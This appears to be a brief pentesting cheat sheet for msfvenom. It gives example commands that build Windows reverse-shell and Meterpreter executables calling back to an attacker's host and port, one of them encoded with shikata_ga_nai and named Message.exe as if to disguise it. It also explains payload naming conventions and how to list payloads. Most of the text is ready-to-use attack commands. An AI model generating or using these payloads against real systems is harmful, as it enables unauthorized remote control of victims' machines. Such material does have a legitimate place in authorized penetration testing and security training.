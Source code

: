   
msfvenom -p payload options

Examples:
 
`msfvenom -p windows/x64/shell_reverse_tcp -f exe -o shell.exe LHOST=ip LPORT=port`

	
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=$lhost LPORT=$lport -e x86/shikata_ga_nai -f exe -o Message.exe`
	
	
---
	
    **PAYLOAD NAMING CONVENTIONS**  
  
OS / architecture / payload
  
_ex: linux/x86/shell\_reverse\_tcp_  
  
  
Windows 32 arch is not specified  
/windows/shell_reverse_tcp
  
64 bit windows is specified as x64  
_indows/x64/shell_reverse_tcp_ 
  
  
\* Stageless payloads are denoted with \_  
\*\*Staged payloads are denoted with /  
  
  
**PAYLOAD SEARCH**  
msfvenom --list payloads